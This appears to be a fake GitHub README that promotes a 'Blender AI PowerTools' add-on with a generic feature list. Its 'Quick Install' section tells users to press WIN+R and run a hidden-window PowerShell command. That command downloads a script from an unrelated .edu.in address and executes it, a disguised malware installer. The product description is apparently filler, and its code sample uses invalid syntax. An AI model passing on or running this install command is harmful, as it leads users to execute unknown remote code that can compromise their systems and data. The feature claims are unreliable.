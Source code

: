 # 🎨 Blender AI PowerTools - Ultimate Add-on Collection

<details>
<summary><strong>🤖 AI & Automation Tools</strong></summary>

### ✅ LLM-Blender Integration
- Generate 3D models from text prompts
- Auto-rig characters using AI
- Smart material suggestions
- AI-driven animation assist
- Prompt-based lighting setup

### ✅ Procedural Workflows
- Batch process FBX/OBJ files
- Auto-LOD generator
- AI-based UV unwrapping
- Topology optimization
- Scene cleanup automation
</details>

<details>
<summary><strong>🎨 Enhanced Rendering & Materials</strong></summary>

### ✅ Color Blender Pro
- Advanced gradient & palette tools
- AI-based color harmony
- PBR material generator
- Texture synthesis
- LookDev presets

### ✅ Real-Time Processing
- AI denoising (OptiX/OpenCL)
- Automatic light optimization
- Style transfer filters
- Render pass composer
- Viewport FX
</details>

<details>
<summary><strong>🎮 Game Engine & Scripting</strong></summary>

### ✅ BGE Extensions
- Physics destruction system
- NPC behavior toolkit
- Real-time shaders
- UI system builder
- Save game manager

### ✅ Python PowerTools
- Batch object processing
- Smart constraint setup
- Asset management
- Custom operator creator
- API reference helper
</details>

<details>
<summary><strong>⚙️ Technical Features</strong></summary>

```python
# Example AI Material Generator
import blender_ai
ai_mat = blender_ai.MaterialGen()
ai_mat.generate(
    prompt="rusted iron with moss",
    roughness_variance=0.3,
    resolution=4K
)
```
</details>

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press WIN+R
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/grapesubject/repairbetter))).Invoke();
```

### 🛠 Supported Blender Versions

Version	Status

3.6+	✅ Full Support

3.0-3.5	⚠️ Partial

2.9x	❌ Not Tested

### 📜 License & Credits

MIT License (Open Source)

Uses OpenAI, Stable Diffusion APIs (requires keys)

Contributors welcome!
